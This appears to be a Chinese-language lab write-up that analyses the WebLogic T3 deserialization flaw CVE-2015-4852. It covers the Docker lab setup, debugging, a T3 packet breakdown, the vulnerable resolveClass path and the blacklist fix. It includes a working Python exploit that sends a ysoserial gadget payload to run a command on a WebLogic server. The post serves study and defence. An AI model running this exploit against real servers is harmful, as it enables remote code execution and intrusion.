# 环境搭建

环境搭建使用A-team 的weblogic漏洞环境项目https://github.com/QAX-A-Team/WeblogicEnvironment

关于weblogic的介绍还是建议看一下Ateam大哥的文章:

https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704

里面的介绍还是挺详细的,远程调试则将文件导到物理机。然后导入idea

```bash
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/modules ./wlserver1036
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/wlserver/server/lib ./wlserver1036
docker cp weblogic1036jdk7u21:/u01/app/oracle/middleware/coherence_3.7/lib ./coherence_3.7/lib
```



远程调试配置:



然后在虚拟机中运行exp,并在`weblogic.rjvm.InboundMsgAbbrev#readObject`中打断点,成功debug

```python
import socket
import sys
import struct
import re
import subprocess
import binascii

def get_payload1(gadget, command):
    JAR_FILE = './ysoserial.jar'
    popen = subprocess.Popen(['java', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE)
    return popen.stdout.read()

def get_payload2(path):
    with open(path, "rb") as f:
        return f.read()

def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode())
    if len(version) == 0:
        print("Not Weblogic")
        return

    print("Weblogic {}".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('>I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)

if __name__ == "__main__":
    host = "127.0.0.1"
    port = 7001
    gadget = "CommonsCollections7" #CommonsCollections1 Jdk7u21
    command = "touch /tmp/CVE-2015-4852"

    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

这里我更改了host之后并没有在物理机上运行,不知道是什么原因。

# T3协议分析

运行exp,使用wireshark抓包，设置过滤规则`tcp.port == 7001` ,追踪tcp流



可以看到上面先发送了我们的T3试探包,然后服务端返回了一些版本信息。接下上来就是我们的数据包



主要有以下几个部分组成：



在反序列化数据包中，`ac ed 00 05` 是反序列化标志，在 T3 协议中由于每个反序列化数据包前面都有 `fe 01 00 00` ，所以这里的标志相当于就是 `fe 01 00 00 ac ed 00 05`



再来看看我们的payload就能理解是如何构造的了

# 漏洞分析

这是一张weblogic反序列化的流程图

T3协议接收过来的数据会在`weblogic.rjvm.InboundMsgAbbrev#readObject`这里进行反序列化操作。



看到断点的位置，里面调用了`InboundMsgAbbrev.ServerChannelInputStream#readObject`方法



可以看到该方法继承于`ObjectInputStream`方法,而且重写了resolveClass方法



而这个resolveClass方法的作用是将类的序列化描述符加工成该类的class对象(通过下图的forName方法)。在shiro中就因为重写了`resolveClass`方法,导致我们的payload中无法使用`Transformer数组`



因为这里分析的是第一款T3漏洞,所以这里并没有在resolveClass方法中进行任何防护,而在后面的weblogic补丁中,会基于这个`resolveClass`去做反序列化漏洞的防御



# CVE-2015-4852修复

借用一下李三师傅的图

这里增加了一个黑名单判断



# 参考

http://wjlshare.com/archives/1573

https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704

https://github.com/QAX-A-Team/WeblogicEnvironment

https://www.cnblogs.com/nice0e3/p/14201884.html

http://redteam.today/2020/03/25/weblogic%E5%8E%86%E5%8F%B2T3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E8%A1%A5%E4%B8%81%E6%A2%B3%E7%90%86/#%E5%8F%82%E8%80%83